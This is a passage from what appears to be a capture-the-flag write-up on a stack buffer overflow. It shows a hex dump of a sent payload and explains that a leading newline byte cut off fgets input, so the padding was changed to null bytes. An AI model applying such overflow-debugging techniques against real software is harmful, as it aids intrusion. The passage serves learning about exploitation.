 ![WAT](wat.png)

### Checking the debug output

We should have seen a lot of `AAAAAAAAAAAAAAAAAAAAAAAAAA` and/or 0x4141414141414141!

Luckily we used the `DEBUG` argument, and can see that the first byte is `0x0a` which is an endline.
This has probably short circuited the input of the fgets. good times! 

```
[DEBUG] Sent 0xa0 bytes:
    00000000  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000010  0b 39 07 72  05 03 09 19  23 05 09 12  30 0c 71 18  __9_r______#____0_q__
    00000020  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000030  0b 39 07 72  05 03 09 19  23 05 09 12  30 0c 71 18  __9_r______#____0_q__
    00000040  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000050  3f 78 9d 32  48 42 48 58  23 05 09 12  30 0c 71 18  _?x_2_HBHX_#____0_q__
    00000060  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000070  0b 39 07 72  05 03 09 19  23 05 09 12  30 0c 71 18  __9_r______#____0_q__
    00000080  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000090  0b 39 07 72  05 03 09 19  04 56 08 53  71 4d 30 59  __9_r_______V_S_qM0Y_
    000000a0
```

OK, so the key has some tripwires, but changing the padding to write `b'\0'` instead of `b'A'` yields better results.

![0xc01db0075](stack3.png)
